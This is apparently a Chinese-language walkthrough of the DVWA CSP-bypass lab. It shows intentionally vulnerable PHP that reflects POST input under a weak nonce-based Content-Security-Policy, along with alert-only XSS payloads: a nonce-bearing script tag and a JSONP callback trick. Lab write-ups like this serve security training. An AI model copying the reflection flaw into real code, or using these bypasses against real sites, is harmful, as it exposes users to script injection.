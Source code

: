 ```php
';
```

![image-20220204095601218](https://s2.loli.net/2022/02/04/WtwgvO2QVAkaEun.png)

打开给定的网站

![image-20220204095512846](https://s2.loli.net/2022/02/04/wXNlErgkYCeQOTv.png)写入一段Js代码

![image-20220204095953637](https://s2.loli.net/2022/02/04/1HgryIJEGCTbx2R.png)

![image-20220204095936972](https://s2.loli.net/2022/02/04/U9MhAg6BweJjVNX.png)



**2.medium**

```php
<?php

$headerCSP = "Content-Security-Policy: script-src 'self' 'unsafe-inline' 'nonce-TmV2ZXIgZ29pbmcgdG8gZ2l2ZSB5b3UgdXA=';";

header($headerCSP);

// Disable XSS protections so that inline alert boxes will work
header ("X-XSS-Protection: 0");

# <script nonce="TmV2ZXIgZ29pbmcgdG8gZ2l2ZSB5b3UgdXA=">alert(1)</script>

?>
<?php
if (isset ($_POST['include'])) {
$page[ 'body' ] .= "
    " . $_POST['include'] . "
";
}
$page[ 'body' ] .= '
<form name="csp" method="POST">
    <p>Whatever you enter here gets dropped directly into the page, see if you can get an alert box to pop up.</p>
    <input size="50" type="text" name="include" value="" id="include" />
    <input type="submit" value="Include" />
</form>
';
```

输入：

```javascript
<script nonce="TmV2ZXIgZ29pbmcgdG8gZ2l2ZSB5b3UgdXA=">alert(1)</script>
```

payload: `<script src="source/jsonp.php?callback=alert('1');"></script>`

